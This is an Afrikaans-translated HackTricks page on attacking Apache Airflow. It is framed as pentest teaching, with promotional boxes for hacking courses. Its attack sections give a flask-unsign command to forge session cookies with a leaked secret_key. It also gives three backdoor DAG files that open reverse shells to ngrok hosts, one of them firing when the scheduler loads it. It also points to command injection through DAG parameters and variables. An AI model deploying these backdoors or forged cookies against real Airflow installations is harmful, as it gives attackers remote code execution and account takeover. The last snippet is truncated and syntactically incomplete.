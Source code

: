 # Apache Airflow Security

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir **die orkestrering en skedulering van datapipelines of werksvloei**. Die term "orkestrering" in die konteks van datapipelines dui op die proses van rangskikking, koördinering en bestuur van komplekse dataverwerkingsvloei wat uit verskeie bronne ontstaan. Die primêre doel van hierdie georkestreerde datapipelines is om verwerkte en verbruikbare datastelle te verskaf. Hierdie datastelle word wyd gebruik deur 'n menigte toepassings, insluitend maar nie beperk tot besigheidsintelligensie-instrumente, datawetenskap en masjienleer modelle, wat almal fundamenteel is vir die funksionering van groot data toepassings.

Basies, Apache Airflow sal jou toelaat om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **gebeur**.

### Local Lab

#### Docker-Compose

Jy kan die **docker-compose konfigurasie lêer van** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige apache airflow docker omgewing te begin. (As jy op MacOS is, maak seker om ten minste 6GB RAM aan die docker VM te gee).

#### Minikube

Een maklike manier om **apache airflow** te **hardloop is om dit met minikube** te hardloop:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfigurasie

Airflow mag **sensitiewe inligting** in sy konfigurasie stoor of jy kan swak konfigurasies in plek vind:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Voordat jy begin om Airflow aan te val, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Aanvalle

#### Web Konsol Enumerasie

As jy **toegang tot die webkonsol** het, mag jy in staat wees om sommige of al die volgende inligting te bekom:

* **Veranderlikes** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* **Verbindings** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* Toegang tot hulle in `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde mag hier gestoor wees)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting mag bevat)

#### Herwin Veranderlikes Waardes

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **toegang**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy hulle in die GUI in `http://<airflow>/variable/list/` toegang.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, egter, volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **sterretjies** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (164).png>)

Egter, hierdie **waardes** kan steeds **herwin** word via **CLI** (jy moet DB toegang hê), **arbitraire DAG** uitvoering, **API** wat die veranderlikes eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanaf die GUI te verkry, kies net die **veranderlikes** wat jy wil toegang en **klik op Aksies -> Eksporteer**.\
'n Ander manier is om 'n **bruteforce** op die **verborge waarde** uit te voer deur die **soekfiltering** totdat jy dit kry:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

As die **`expose_config`** konfigurasie op **Waar** gestel is, kan die **rol Gebruiker** en **bo** die **konfig in die web** **lees**. In hierdie konfig, verskyn die **`secret_key`**, wat beteken enige gebruiker met hierdie geldige kan **sy eie ondertekende koekie skep om enige ander gebruikersrekening na te volg**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Agterdeur (RCE in Airflow werker)

As jy **skrywe toegang** het tot die plek waar die **DAGs gestoor word**, kan jy eenvoudig **een skep** wat vir jou 'n **omgekeerde skulp** sal stuur.\
Let daarop dat hierdie omgekeerde skulp binne 'n **airflow werker houer** uitgevoer gaan word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

As jy iets stel om **uitgevoer te word in die wortel van die kode**, op die oomblik van hierdie skrywe, sal dit **deur die skeduleerder uitgevoer word** na 'n paar sekondes nadat dit binne die DAG se gids geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Skepping

As jy daarin slaag om 'n **masjien binne die DAG-kluster te kompromitteer**, kan jy nuwe **DAG-skripte** in die `dags/` gids skep en hulle sal **in die res van die masjiene** binne die DAG-kluster **gekopieer word**.

#### DAG Kode Inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente** aan dit **oorgee**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwulnerabel wees vir Opdrag Inspuiting.**\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles wat jy moet weet om **te begin soek na opdrag inspuitings in DAGs** is dat **parameters** met die kode **`dag_run.conf.get("param_name")`** **toegang verkry**.

Boonop kan dieselfde kwesbaarheid voorkom met **veranderlikes** (let daarop dat jy met genoeg regte die **waarde van die veranderlikes** in die GUI kan **beheer**). Veranderlikes word **toegang verkry met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
As hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginjeksie uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

